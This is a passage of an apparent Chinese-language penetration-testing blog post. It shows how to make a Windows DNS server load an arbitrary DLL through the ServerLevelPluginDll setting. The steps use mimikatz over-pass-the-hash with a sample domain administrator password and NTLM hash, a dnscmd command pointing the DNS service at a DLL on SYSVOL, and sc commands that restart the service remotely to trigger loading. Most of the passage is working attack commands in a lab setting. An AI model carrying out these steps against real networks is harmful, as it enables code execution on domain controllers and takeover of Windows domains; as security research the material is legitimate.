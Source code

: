 dnscmd.exe和dnscmd.exe.mui是在我的测试系统(Windows Server 2008 R2x64)中获得的

方法细节可参考之前的文章[《域渗透——DNS记录的获取》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DNS%E8%AE%B0%E5%BD%95%E7%9A%84%E8%8E%B7%E5%8F%96/)

### 6、启动dnscmd

dnscmd不支持输入凭据进行远程操作的功能，这里需要使用mimikatz的Over pass the hash功能

测试环境已获得关键用户的信息如下：

用户名：Administrator
口令：DomainAdmin456!
hash：A55E0720F0041193632A58E007624B40

命令行下执行：

```
mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:test.com /ntlm:A55E0720F0041193632A58E007624B40"
```

这样会弹出一个cmd.exe，在cmd.exe中执行dnscmd命令即可

也可以实现自动化输入：

命令行下执行：

```
mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:test.com /ntlm:A55E0720F0041193632A58E007624B40 /run:\"cmd.exe /c c:\test\1.bat\""
```

`c:\test\1.bat`中保存dnscmd的命令

### 7、使用dnscmd命令

DNS服务器的IP：192.168.10.1

命令行执行：

```
dnscmd 192.168.10.1 /config /serverlevelplugindll \\test.com\SYSVOL\test.com\scripts\testdns.dll
```

对于DNS服务器来说，此时会新建一个注册表项

位置：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\`

- ServerLevelPluginDll
- REG_SZ
- `\\test.com\SYSVOL\test.com\scripts\testdns.dll`

### 8、重启DNS服务后会加载dll

等待DNS服务器重启

或者远程重启DNS服务器：

```
sc \\192.168.10.1 stop dns
sc \\192.168.10.1 start dns
```
